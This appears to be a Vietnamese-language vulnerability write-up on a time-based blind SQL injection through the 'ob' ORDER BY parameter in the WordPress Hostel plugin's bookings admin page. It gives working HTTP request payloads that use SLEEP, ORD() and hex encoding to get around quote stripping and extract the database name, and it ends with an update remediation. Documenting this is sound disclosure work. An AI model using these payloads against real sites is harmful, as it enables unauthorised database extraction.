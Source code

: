 ⚠️ Ở đây có điểm bất thường:
- Phần sau `ORDER BY` sử dụng `sanitize_text_field()`.
- Hàm này chỉ **loại bỏ/escape HTML**, không hề filter hoặc validate để đảm bảo an toàn trong **SQL context**.
- Tham số `ob` (do người dùng truyền vào) vì vậy có thể bị lợi dụng để **chèn trực tiếp vào câu SQL**.

**Request with BurpSuite**:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&ob=tB.status,(SELECT+SLEEP(10))&dir=ASC HTTP/1.1
```
Ta tách mệnh đề `ORDER BY` bằng `,` vì nó chấp nhập **multi column**

![time response](time_response.png "Time response")

Kết quả: thời gian phản hồi bị delay => SQL Injection thành công.

### Dump Data from Database

**Bypass `'` using ORD()**:

Để dump dữ liệu của database ta cần thử để lấy ký tự đầu tiên của **database name**.

Do `sanitize_text_field()` loại bỏ `'`, ta không dùng được payload so sánh trực tiếp. Thay vào đó dùng `ORD()` để so sánh ký tự theo ASCII:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```
Thành công bypass => có thể trích xuất tên database.

![ORD bypass](ord_bypass.png "ORD bypass")

**Bypass `'` using Hex encoding (extend)**

Ngoài `ORD()` ta có thể sử dụng **Hex encoding** để bypass

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Thành công bypass => có thể trích xuất tên database.

![Hex encoding bypass](ord_bypass.png "Hex encoding bypass")

---

## Remediation

Cập nhật lên **Hostel Plugin v1.1.5.7** hoặc mới hơn

---
